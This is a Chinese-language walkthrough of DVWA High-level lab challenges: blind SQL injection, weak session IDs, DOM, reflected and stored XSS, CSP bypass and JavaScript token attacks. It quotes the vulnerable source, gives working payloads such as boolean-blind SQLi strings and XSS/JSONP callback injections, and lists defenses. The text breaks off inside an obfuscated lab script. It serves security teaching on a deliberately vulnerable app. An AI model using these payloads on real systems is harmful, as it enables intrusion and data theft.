- 首先参考impossible级别的代码，一方面其采用了PDO技术，划清了代码与数据的界限(bindParam)，有效防御SQL注入；另一方面：只有返回的查询结果数量为1时，才会成功输出，这样就有效预防了“脱库”，Anti-CSRFtoken机制的加入了进一步提高了安全性。
- 字符型防御 ：通过mysqli_real_escape_string等相关函数对特殊字符进行转义；
- 数字型防御：
  - 通过is_numeric进行类型判断；
  - 使用PDO进一步对类型进行规定。


### 九、SQL Injection Blind（High Level）
> SQL Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。

#### 关键代码
```php
<?php
 
if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];
 
    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
 
    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }
 
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
 
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
 
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
 
?> 
```
- isset检测COOKIE中的id变量是否已设置并且非 NULL
- 得到用户提交的数据 id
- 利用用户数据拼接成sql语句query，id当做字符串
- 使用mysqli_query函数执行sql语句并返回结果给result，不使用or die来抑制mysql错误
- 使用mysqli_num_rows函数获取结果集的数量给变量num，通过@来抑制mysql错误
    - 若num>0，输出“User ID exists in the database.”，否则睡眠一会，显示404。输出”User ID is MISSING from the database.“,目的是为了扰乱基于时间的盲注.

- 没有进行预编译
- 用户数据拼接了代码，没有实现代码、数据分离
- 想要利用COOKIE来增加安全系数，抓包可绕过

#### 漏洞利用
- 采用基于布尔的盲注

- 将id改为`1’ and length(database())=4 #`
  - 显示存在，说明数据库名的长度为4个字符；</b>
- 将id改为`1’ and length(substr(( select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #`
  - 显示存在，说明数据中的第一个表名长度为9个字符；</b>
- 将id改为`1’ and (select count(column_name) from information_schema.columns where table_name=0×7573657273)=8 #`，（0×7573657273 为users的16进制）
  - 显示存在，说明uers表有8个字段</b>
- 再利用二分法可以猜测所有字段的名称。


#### 漏洞防护
- 参考impossible级别代码：验证token防御CSRF，检测id是否为数字，PDO预编译防止sql注入。
- 当我们进行SQL 盲注时，往往是采取以下几个步骤：
    - 判断是否存在注入，注入是字符型还是数字型；
    - 猜解当前数据库名；
    - 猜解数据库中的表名；
    - 猜解表中的字段名；
    - 猜解数据。
- 当开发者需要防御 SQL 注入攻击时，可以采用以下方法。

    - 过滤危险字符：可以使用正则表达式匹配各种 SQL 子句，例如 select,union,where 等，如果匹配到则退出程序。
    - 使用预编译语句：PDO 提供了一个数据访问抽象层，这意味着不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。使用 PDO 预编译语句应该使用占位符进行数据库的操作，而不是直接将变量拼接进去。

### 十、Weak Session IDs（High Level）
> 用户访问服务器的时候，一般服务器都会分配一个身份证 session id 给用户，用于标识。用户拿到 session id 后就会保存到 cookies 上，之后只要拿着 cookies 再访问服务器，服务器就知道你是谁了。但是 session id 过于简单就会容易被人伪造。根本都不需要知道用户的密码就能访问，用户服务器的内容了。此外，SessionID一旦在生命周期内被窃取，就等同于账户失窃。同时由于SessionID是用户登录之后才持有的认证凭证，因此黑客不需要再攻击登陆过程（比如密码），就可以轻易获取访问权限，无需登录密码直接进入特定用户界面，进而查找其他漏洞如XSS、文件上传等等。
#### 关键代码
```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id_high'])) {
        $_SESSION['last_session_id_high'] = 0;
    }
    $_SESSION['last_session_id_high']++;
    $cookie_value = md5($_SESSION['last_session_id_high']);
    setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false);
}

?> 
```
- last_session_id_high用了md5加密
- 使用了setcookie()函数设置cookie


#### 漏洞利用
- 抓包发现，dvwaSesion是32位字符，由0-9和a-f组，很像md5加密。</b></b>
- 使用md5解密，发现是对从零开始的整数进行加密。</b></b>
- 可以通过猜测用户的点击次数，以及md5值对照推测出Session值
- 使用Chrome的登录访问dvwa的Weak Session IDs模块，点击generate，复制url和cookie。
- 使用火狐浏览器，F12打开hackbar插件，将url和cookie复制进来，点击execute重放，成功登录</b>


#### 漏洞防护
- 参考impossible
    - mt_rand()：返回一个随机整数
    - sha1(str)：返回字符串str的sha-1散列值
- 代码以"随机值+当前时间+固定字符串"的hash值作为cookie，由于是随机数，难以猜测，可以有效抵御漏洞。


### 十一、DOM Based Cross Site Scripting (XSS) (High Level)
> 基于 DOM 的 XSS 是一种特殊的反射型 XSS，通过将 JavaScript 隐藏在 URL 中。基于 DOM 的 XSS 将在页面呈现时被 JavaScript 拉出，而不是在服务时嵌入到页面中。这会使它比其他攻击更隐蔽，WAF 或其他保护读取页面正文时看不到任何恶意内容。
#### 关键代码
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```
- 先判断`defalut`值是否为空，如果不为空则通过`switch`进行匹配
  - 如果成功匹配，则插入case字段的相应值；
  - 如果不匹配，则插入默认的值。
- `default`使用白名单过滤，只允许French、English、German、Spanish通过。

#### 漏洞利用
- URL的锚（＃符号之后的任何内容）不会发送到服务器，URL中#号之后的内容，可以直接与浏览器进行交互,因此无法被阻止。
- 构造payload
```javascript
?default=English # <script>alert(1)</script>
```
- 攻击成功</b>

#### 漏洞防护
- 参考Impossible代码逻辑，在客户端进行了保护而服务器端没有。
- 由于大多数浏览器默认将从URL中获取的内容进行编码，而客户端的源代码中直接将编码后的输入插入到了动态页面中，从而阻止了执行任何注入的JavaScript。
- XSS 漏洞的修复方式有以下 2 种：
  - 过滤输入的字符，例如 “ ' ”，“ " ”，“<”，“>” 等非法字符；
  - 对输出到页面的数据进行编码


### 十二、Reflected Cross Site Scripting (XSS) (High Level)
> 如果一个应用程序使用动态页面向用户显示错误消息，就会造成一种常见的XSS漏洞。通常，该页面会使用一个包含消息文本的参数，并在响应中将这个文本返回给用户。对于开发者而言，使用这种机制非常方便，因为它允许他们从应用程序中调用一个定制的错误页面，而不需要对错误页面中的消息分别进行硬编码。
#### 关键代码
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}

?>
```
- 使用黑名单过滤  `<*s*c*r*i*p*t` ；
- preg_replace()：用于正则表达式的搜索和替换，使双写绕过、大小写混淆绕过不再有效

#### 漏洞利用
- 无法使用`<script>`标签注入XSS代码;
- 可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。
- 构造payload:当图片显示错误时执行 alert('hack')
```javascript

```
- 攻击成功</b>
#### 漏洞防护
- 参考impossible代码，代码逻辑为先判断name是否为空，不为空则验证其token以防范CSRF攻击。再用htmlspecialchars函数将name中的预定义字符转换成html实体，防止填入标签。
  - htmlspecialchars(string)：把预定义的字符 "<" 、 ">" 、& 、‘’、“” 转换为 HTML 实体，防止浏览器将其作为HTML元素。


### 十三、Stored Cross Site Scripting (XSS)(High Level)
> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行，XSS攻击就发生了。
#### 关键代码
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```
- `strip_tags()`:剥去字符串中的 HTML、XML 以及 PHP 的标签，但允许使用标签。
- `addslashes()`:返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。
- `htmlspecialchars()`:把预定义的字符转换为 HTML 实体
- 对于name参数,过滤了`<script>标签`，但是却忽略了img、iframe等其它危险的标签，因此name参数依旧存在存储型XSS。
#### 漏洞利用
- 先在Name和Message中随便输入一些内容，并用burpsuite拦截（在做这一题时虚拟机出现了一些小问题，故用buuctf提供的在线容器靶场进行漏洞利用练习）
- 在burp中修改txtName为payload``</b>
- 点击forward,出现弹窗，攻击成功</b>

#### 漏洞防护
- 参考impossible部分代码
  - `htmlspecialchars`:将message和name中的预定义字符转换成html实体，防止了我们填入标签。
  - 使用token防范CSRF攻击;
  - 使用PDO技术防御SQL注入，进一步提高了安全性

### 十四、Content Security Policy (CSP) Bypass（High）
> CSP即Content-Security-Policy，是指HTTP返回报文头中的标签，浏览器会根据标签中的内容，判断哪些资源可以加载或执行。翻译为中文就是内容安全策略。是为了缓解潜在的跨站脚本问题（XSS），浏览器的扩展程序系统引入了内容安全策略这个概念，原来应对XSS攻击时，主要采用函数过滤、转义输入中的特殊字符、标签、文本来规避攻击。
CSP的实质就是白名单制度，开发人员明确告诉客户端，哪些外部资源可以加载和执行。开发者只需要提供配置，实现和执行全部由浏览器完成。
#### 关键代码
- **high.php**
```php
<?php
$headerCSP = "Content-Security-Policy: script-src 'self';";
header($headerCSP);
?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>The page makes a call to ' . DVWA_WEB_PAGE_TO_ROOT . '/vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code.</p>
    <p>1+2+3+4+5=<span id="answer"></span></p>
    <input type="button" id="solve" value="Solve the sum" />
</form>

<script src="source/high.js"></script>
';
```
- 没有输入框
- script-src 'self' ，只允许本界面加载的 javascript 执行, 于是，不能使用外部的脚本，内联的脚本，只能想办法对本页面已加载的脚本利用。


- **high.js**
```javascript
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}

function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}

var solve_button = document.getElementById ("solve");

if (solve_button) {
    solve_button.addEventListener("click", function() {
        clickButton();
    });
}
```
- `clickButton()：`点击按钮后，在页面上创建`<script src="source/jsonp.php?callback=solveSum"></script>。`
- `solveSum(obj)`：将answer写入页面。
- 点击按钮触发clickButton事件，触发jsonp的callback参数。

#### 漏洞利用
```php
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
```
- 将include的值写入页面，这个值是我们可控的；

```php
s.src = "source/jsonp.php?callback=solveSum";
```
- callback调用`solveSum`函数，尝试把solveSum换成黑客的js代码。
- 点击按钮，并用burp拦截，修改`callback=alert(999)`</b>
- 点击`forward`，出现弹窗,攻击成功</b>

#### 漏洞防护
- 参考Impossible级别的代码，修复了 `callback` 参数可被控制的问题，JSONP 调用的回调函数是硬编码的，CSP 策略被锁定为只允许外部脚本。直接把想要执行的js代码写在了php代码里。

### 十五、JavaScript Attacks（High）
> JavaScript攻击属于Web前端安全，不存在黑盒测试的概念，直接可以对JS进行白盒代码审计。DVWA中的JavaScript攻击的场景是基于token由前端JS生成而引起的一系列问题

#### 关键代码
- high.php
```php
<?php
$page[ 'body' ] .= '<script src="' . DVWA_WEB_PAGE_TO_ROOT . 'vulnerabilities/javascript/source/high.js"></script>';
?>
```
- 生成 token 的逻辑在high.js中
- high.js
```js
var a=['fromCharCode','toString','replace','BeJ','\x5cw+','Lyg','SuR','(w(){\x273M\x203L\x27;q\x201l=\x273K\x203I\x203J\x20T\x27;q\x201R=1c\x202I===\x271n\x27;q\x20Y=1R?2I:{};p(Y.3N){1R=1O}q\x202L=!1R&&1c\x202M===\x271n\x27;q\x202o=!Y.2S&&1c\x202d===\x271n\x27&&2d.2Q&&2d.2Q.3S;p(2o){Y=3R}z\x20p(2L){Y=2M}q\x202G=!Y.3Q&&1c\x202g===\x271n\x27&&2g.X;q\x202s=1c\x202l===\x27w\x27&&2l.3P;q\x201y=!Y.3H&&1c\x20Z!==\x272T\x27;q\x20m=\x273G\x27.3z(\x27\x27);q\x202w=[-3y,3x,3v,3w];q\x20U=[24,16,8,0];q\x20K=[3A,3B,3F,3E,3D,3C,3T,3U,4d,4c,4b,49,4a,4e,4f,4j,4i,4h,3u,48,47,3Z,3Y,3X,3V,3W,40,41,46,45,43,42,4k,3f,38,36,39,37,34,33,2Y,31,2Z,35,3t,3n,3m,3l,3o,3p,3s,3r,3q,3k,3j,3d,3a,3c,3b,3e,3h,3g,3i,4g];q\x201E=[\x271e\x27,\x2727\x27,\x271G\x27,\x272R\x27];q\x20l=[];p(Y.2S||!1z.1K){1z.1K=w(1x){A\x204C.Q.2U.1I(1x)===\x27[1n\x201z]\x27}}p(1y&&(Y.50||!Z.1N)){Z.1N=w(1x){A\x201c\x201x===\x271n\x27&&1x.1w&&1x.1w.1J===Z}}q\x202m=w(1X,x){A\x20w(s){A\x20O\x20N(x,1d).S(s)[1X]()}};q\x202a=w(x){q\x20P=2m(\x271e\x27,x);p(2o){P=2P(P,x)}P.1T=w(){A\x20O\x20N(x)};P.S=w(s){A\x20P.1T().S(s)};1g(q\x20i=0;i<1E.W;++i){q\x20T=1E[i];P[T]=2m(T,x)}A\x20P};q\x202P=w(P,x){q\x201S=2O(\x222N(\x271S\x27)\x22);q\x201Y=2O(\x222N(\x271w\x27).1Y\x22);q\x202n=x?\x271H\x27:\x271q\x27;q\x202z=w(s){p(1c\x20s===\x272p\x27){A\x201S.2x(2n).S(s,\x274S\x27).1G(\x271e\x27)}z{p(s===2q||s===2T){1u\x20O\x201t(1l)}z\x20p(s.1J===Z){s=O\x202r(s)}}p(1z.1K(s)||Z.1N(s)||s.1J===1Y){A\x201S.2x(2n).S(O\x201Y(s)).1G(\x271e\x27)}z{A\x20P(s)}};A\x202z};q\x202k=w(1X,x){A\x20w(G,s){A\x20O\x201P(G,x,1d).S(s)[1X]()}};q\x202f=w(x){q\x20P=2k(\x271e\x27,x);P.1T=w(G){A\x20O\x201P(G,x)};P.S=w(G,s){A\x20P.1T(G).S(s)};1g(q\x20i=0;i<1E.W;++i){q\x20T=1E[i];P[T]=2k(T,x)}A\x20P};w\x20N(x,1v){p(1v){l[0]=l[16]=l[1]=l[2]=l[3]=l[4]=l[5]=l[6]=l[7]=l[8]=l[9]=l[10]=l[11]=l[12]=l[13]=l[14]=l[15]=0;k.l=l}z{k.l=[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]}p(x){k.C=4I;k.B=4H;k.E=4l;k.F=4U;k.J=4J;k.I=4K;k.H=4L;k.D=4T}z{k.C=4X;k.B=4W;k.E=4Y;k.F=4Z;k.J=4V;k.I=4O;k.H=4F;k.D=4s}k.1C=k.1A=k.L=k.2i=0;k.1U=k.1L=1O;k.2j=1d;k.x=x}N.Q.S=w(s){p(k.1U){A}q\x202h,T=1c\x20s;p(T!==\x272p\x27){p(T===\x271n\x27){p(s===2q){1u\x20O\x201t(1l)}z\x20p(1y&&s.1J===Z){s=O\x202r(s)}z\x20p(!1z.1K(s)){p(!1y||!Z.1N(s)){1u\x20O\x201t(1l)}}}z{1u\x20O\x201t(1l)}2h=1d}q\x20r,M=0,i,W=s.W,l=k.l;4t(M<W){p(k.1L){k.1L=1O;l[0]=k.1C;l[16]=l[1]=l[2]=l[3]=l[4]=l[5]=l[6]=l[7]=l[8]=l[9]=l[10]=l[11]=l[12]=l[13]=l[14]=l[15]=0}p(2h){1g(i=k.1A;M<W&&i<1k;++M){l[i>>2]|=s[M]<<U[i++&3]}}z{1g(i=k.1A;M<W&&i<1k;++M){r=s.1Q(M);p(r<R){l[i>>2]|=r<<U[i++&3]}z\x20p(r<2v){l[i>>2]|=(2t|(r>>6))<<U[i++&3];l[i>>2]|=(R|(r&V))<<U[i++&3]}z\x20p(r<2A||r>=2E){l[i>>2]|=(2D|(r>>12))<<U[i++&3];l[i>>2]|=(R|((r>>6)&V))<<U[i++&3];l[i>>2]|=(R|(r&V))<<U[i++&3]}z{r=2C+(((r&23)<<10)|(s.1Q(++M)&23));l[i>>2]|=(2X|(r>>18))<<U[i++&3];l[i>>2]|=(R|((r>>12)&V))<<U[i++&3];l[i>>2]|=(R|((r>>6)&V))<<U[i++&3];l[i>>2]|=(R|(r&V))<<U[i++&3]}}}k.2u=i;k.L+=i-k.1A;p(i>=1k){k.1C=l[16];k.1A=i-1k;k.1W();k.1L=1d}z{k.1A=i}}p(k.L>4r){k.2i+=k.L/2H<<0;k.L=k.L%2H}A\x20k};N.Q.1s=w(){p(k.1U){A}k.1U=1d;q\x20l=k.l,i=k.2u;l[16]=k.1C;l[i>>2]|=2w[i&3];k.1C=l[16];p(i>=4q){p(!k.1L){k.1W()}l[0]=k.1C;l[16]=l[1]=l[2]=l[3]=l[4]=l[5]=l[6]=l[7]=l[8]=l[9]=l[10]=l[11]=l[12]=l[13]=l[14]=l[15]=0}l[14]=k.2i<<3|k.L>>>29;l[15]=k.L<<3;k.1W()};N.Q.1W=w(){q\x20a=k.C,b=k.B,c=k.E,d=k.F,e=k.J,f=k.I,g=k.H,h=k.D,l=k.l,j,1a,1b,1j,v,1f,1h,1B,1Z,1V,1D;1g(j=16;j<1k;++j){v=l[j-15];1a=((v>>>7)|(v<<25))^((v>>>18)|(v<<14))^(v>>>3);v=l[j-2];1b=((v>>>17)|(v<<15))^((v>>>19)|(v<<13))^(v>>>10);l[j]=l[j-16]+1a+l[j-7]+1b<<0}1D=b&c;1g(j=0;j<1k;j+=4){p(k.2j){p(k.x){1B=4m;v=l[0]-4n;h=v-4o<<0;d=v+4p<<0}z{1B=4v;v=l[0]-4w;h=v-4G<<0;d=v+4D<<0}k.2j=1O}z{1a=((a>>>2)|(a<<30))^((a>>>13)|(a<<19))^((a>>>22)|(a<<10));1b=((e>>>6)|(e<<26))^((e>>>11)|(e<<21))^((e>>>25)|(e<<7));1B=a&b;1j=1B^(a&c)^1D;1h=(e&f)^(~e&g);v=h+1b+1h+K[j]+l[j];1f=1a+1j;h=d+v<<0;d=v+1f<<0}1a=((d>>>2)|(d<<30))^((d>>>13)|(d<<19))^((d>>>22)|(d<<10));1b=((h>>>6)|(h<<26))^((h>>>11)|(h<<21))^((h>>>25)|(h<<7));1Z=d&a;1j=1Z^(d&b)^1B;1h=(h&e)^(~h&f);v=g+1b+1h+K[j+1]+l[j+1];1f=1a+1j;g=c+v<<0;c=v+1f<<0;1a=((c>>>2)|(c<<30))^((c>>>13)|(c<<19))^((c>>>22)|(c<<10));1b=((g>>>6)|(g<<26))^((g>>>11)|(g<<21))^((g>>>25)|(g<<7));1V=c&d;1j=1V^(c&a)^1Z;1h=(g&h)^(~g&e);v=f+1b+1h+K[j+2]+l[j+2];1f=1a+1j;f=b+v<<0;b=v+1f<<0;1a=((b>>>2)|(b<<30))^((b>>>13)|(b<<19))^((b>>>22)|(b<<10));1b=((f>>>6)|(f<<26))^((f>>>11)|(f<<21))^((f>>>25)|(f<<7));1D=b&c;1j=1D^(b&d)^1V;1h=(f&g)^(~f&h);v=e+1b+1h+K[j+3]+l[j+3];1f=1a+1j;e=a+v<<0;a=v+1f<<0}k.C=k.C+a<<0;k.B=k.B+b<<0;k.E=k.E+c<<0;k.F=k.F+d<<0;k.J=k.J+e<<0;k.I=k.I+f<<0;k.H=k.H+g<<0;k.D=k.D+h<<0};N.Q.1e=w(){k.1s();q\x20C=k.C,B=k.B,E=k.E,F=k.F,J=k.J,I=k.I,H=k.H,D=k.D;q\x201e=m[(C>>28)&o]+m[(C>>24)&o]+m[(C>>20)&o]+m[(C>>16)&o]+m[(C>>12)&o]+m[(C>>8)&o]+m[(C>>4)&o]+m[C&o]+m[(B>>28)&o]+m[(B>>24)&o]+m[(B>>20)&o]+m[(B>>16)&o]+m[(B>>12)&o]+m[(B>>8)&o]+m[(B>>4)&o]+m[B&o]+m[(E>>28)&o]+m[(E>>24)&o]+m[(E>>20)&o]+m[(E>>16)&o]+m[(E>>12)&o]+m[(E>>8)&o]+m[(E>>4)&o]+m[E&o]+m[(F>>28)&o]+m[(F>>24)&o]+m[(F>>20)&o]+m[(F>>16)&o]+m[(F>>12)&o]+m[(F>>8)&o]+m[(F>>4)&o]+m[F&o]+m[(J>>28)&o]+m[(J>>24)&o]+m[(J>>20)&o]+m[(J>>16)&o]+m[(J>>12)&o]+m[(J>>8)&o]+m[(J>>4)&o]+m[J&o]+m[(I>>28)&o]+m[(I>>24)&o]+m[(I>>20)&o]+m[(I>>16)&o]+m[(I>>12)&o]+m[(I>>8)&o]+m[(I>>4)&o]+m[I&o]+m[(H>>28)&o]+m[(H>>24)&o]+m[(H>>20)&o]+m[(H>>16)&o]+m[(H>>12)&o]+m[(H>>8)&o]+m[(H>>4)&o]+m[H&o];p(!k.x){1e+=m[(D>>28)&o]+m[(D>>24)&o]+m[(D>>20)&o]+m[(D>>16)&o]+m[(D>>12)&o]+m[(D>>8)&o]+m[(D>>4)&o]+m[D&o]}A\x201e};N.Q.2U=N.Q.1e;N.Q.1G=w(){k.1s();q\x20C=k.C,B=k.B,E=k.E,F=k.F,J=k.J,I=k.I,H=k.H,D=k.D;q\x202b=[(C>>24)&u,(C>>16)&u,(C>>8)&u,C&u,(B>>24)&u,(B>>16)&u,(B>>8)&u,B&u,(E>>24)&u,(E>>16)&u,(E>>8)&u,E&u,(F>>24)&u,(F>>16)&u,(F>>8)&u,F&u,(J>>24)&u,(J>>16)&u,(J>>8)&u,J&u,(I>>24)&u,(I>>16)&u,(I>>8)&u,I&u,(H>>24)&u,(H>>16)&u,(H>>8)&u,H&u];p(!k.x){2b.4A((D>>24)&u,(D>>16)&u,(D>>8)&u,D&u)}A\x202b};N.Q.27=N.Q.1G;N.Q.2R=w(){k.1s();q\x201w=O\x20Z(k.x?28:32);q\x201i=O\x204x(1w);1i.1p(0,k.C);1i.1p(4,k.B);1i.1p(8,k.E);1i.1p(12,k.F);1i.1p(16,k.J);1i.1p(20,k.I);1i.1p(24,k.H);p(!k.x){1i.1p(28,k.D)}A\x201w};w\x201P(G,x,1v){q\x20i,T=1c\x20G;p(T===\x272p\x27){q\x20L=[],W=G.W,M=0,r;1g(i=0;i<W;++i){r=G.1Q(i);p(r<R){L[M++]=r}z\x20p(r<2v){L[M++]=(2t|(r>>6));L[M++]=(R|(r&V))}z\x20p(r<2A||r>=2E){L[M++]=(2D|(r>>12));L[M++]=(R|((r>>6)&V));L[M++]=(R|(r&V))}z{r=2C+(((r&23)<<10)|(G.1Q(++i)&23));L[M++]=(2X|(r>>18));L[M++]=(R|((r>>12)&V));L[M++]=(R|((r>>6)&V));L[M++]=(R|(r&V))}}G=L}z{p(T===\x271n\x27){p(G===2q){1u\x20O\x201t(1l)}z\x20p(1y&&G.1J===Z){G=O\x202r(G)}z\x20p(!1z.1K(G)){p(!1y||!Z.1N(G)){1u\x20O\x201t(1l)}}}z{1u\x20O\x201t(1l)}}p(G.W>1k){G=(O\x20N(x,1d)).S(G).27()}q\x201F=[],2e=[];1g(i=0;i<1k;++i){q\x20b=G[i]||0;1F[i]=4z^b;2e[i]=4y^b}N.1I(k,x,1v);k.S(2e);k.1F=1F;k.2c=1d;k.1v=1v}1P.Q=O\x20N();1P.Q.1s=w(){N.Q.1s.1I(k);p(k.2c){k.2c=1O;q\x202W=k.27();N.1I(k,k.x,k.1v);k.S(k.1F);k.S(2W);N.Q.1s.1I(k)}};q\x20X=2a();X.1q=X;X.1H=2a(1d);X.1q.2V=2f();X.1H.2V=2f(1d);p(2G){2g.X=X}z{Y.1q=X.1q;Y.1H=X.1H;p(2s){2l(w(){A\x20X})}}})();w\x202y(e){1g(q\x20t=\x22\x22,n=e.W-1;n>=0;n--)t+=e[n];A\x20t}w\x202J(t,y=\x224B\x22){1m.1o(\x221M\x22).1r=1q(1m.1o(\x221M\x22).1r+y)}w\x202B(e=\x224E\x22){1m.1o(\x221M\x22).1r=1q(e+1m.1o(\x221M\x22).1r)}w\x202K(a,b){1m.1o(\x221M\x22).1r=2y(1m.1o(\x222F\x22).1r)}1m.1o(\x222F\x22).1r=\x22\x22;4u(w(){2B(\x224M\x22)},4N);1m.1o(\x224P\x22).4Q(\x224R\x22,2J);2K(\x223O\x22,44);','||||||||||||||||||||this|blocks|HEX_CHARS||0x0F|if|var|code|message||0xFF|t1|function|is224||else|return|h1|h0|h7|h2|h3|key|h6|h5|h4||bytes|index|Sha256|new|method|prototype|0x80|update|type|SHIFT|0x3f|length|exports|root|ArrayBuffer|||||||||||s0|s1|typeof|true|hex|t2|for|ch|dataView|maj|64|ERROR|document|object|getElementById|setUint32|sha256|value|finalize|Error|throw|sharedMemory|buffer|obj|ARRAY_BUFFER|Array|start|ab|block|bc|OUTPUT_TYPES|oKeyPad|digest|sha224|call|constructor|isArray|hashed|token|isView|false|HmacSha256|charCodeAt|WINDOW|crypto|create|finalized|cd|hash|outputType|Buffer|da||||0x3ff||||array|||createMethod|arr|inner|process|iKeyPad|createHmacMethod|module|notString|hBytes|first|createHmacOutputMethod|define|createOutputMethod|algorithm|NODE_JS|string|null|Uint8Array|AMD|0xc0|lastByteIndex|0x800|EXTRA|createHash|do_something|nodeMethod|0xd800|token_part_2|0x10000|0xe0|0xe000|phrase|COMMON_JS|4294967296|window|token_part_3|token_part_1|WEB_WORKER|self|require|eval|nodeWrap|versions|arrayBuffer|JS_SHA256_NO_NODE_JS|undefined|toString|hmac|innerHash|0xf0|0xa2bfe8a1|0xc24b8b70||0xa81a664b||0x92722c85|0x81c2c92e|0xc76c51a3|0x53380d13|0x766a0abb|0x4d2c6dfc|0x650a7354|0x748f82ee|0x84c87814|0x78a5636f|0x682e6ff3|0x8cc70208|0x2e1b2138|0xa4506ceb|0x90befffa|0xbef9a3f7|0x5b9cca4f|0x4ed8aa4a|0x106aa070|0xf40e3585|0xd6990624|0x19a4c116|0x1e376c08|0x391c0cb3|0x34b0bcb5|0x2748774c|0xd192e819|0x0fc19dc6|32768|128|8388608|2147483648|split|0x428a2f98|0x71374491|0x59f111f1|0x3956c25b|0xe9b5dba5|0xb5c0fbcf|0123456789abcdef|JS_SHA256_NO_ARRAY_BUFFER|is|invalid|input|strict|use|JS_SHA256_NO_WINDOW|ABCD|amd|JS_SHA256_NO_COMMON_JS|global|node|0x923f82a4|0xab1c5ed5|0x983e5152|0xa831c66d|0x76f988da|0x5cb0a9dc|0x4a7484aa|0xb00327c8|0xbf597fc7|0x14292967|0x06ca6351||0xd5a79147|0xc6e00bf3|0x2de92c6f|0x240ca1cc|0x550c7dc3|0x72be5d74|0x243185be|0x12835b01|0xd807aa98|0x80deb1fe|0x9bdc06a7|0xc67178f2|0xefbe4786|0xe49b69c1|0xc19bf174|0x27b70a85|0x3070dd17|300032|1413257819|150054599|24177077|56|4294967295|0x5be0cd19|while|setTimeout|704751109|210244248|DataView|0x36|0x5c|push|ZZ|Object|143694565|YY|0x1f83d9ab|1521486534|0x367cd507|0xc1059ed8|0xffc00b31|0x68581511|0x64f98fa7|XX|300|0x9b05688c|send|addEventListener|click|utf8|0xbefa4fa4|0xf70e5939|0x510e527f|0xbb67ae85|0x6a09e667|0x3c6ef372|0xa54ff53a|JS_SHA256_NO_ARRAY_BUFFER_IS_VIEW','split'];(function(c,d){var e=function(f){while(--f){c['push'](c['shift']());}};e(++d);}(a,0x1f4));var b=function(c,d){c=c-0x0;var e=a[c];return 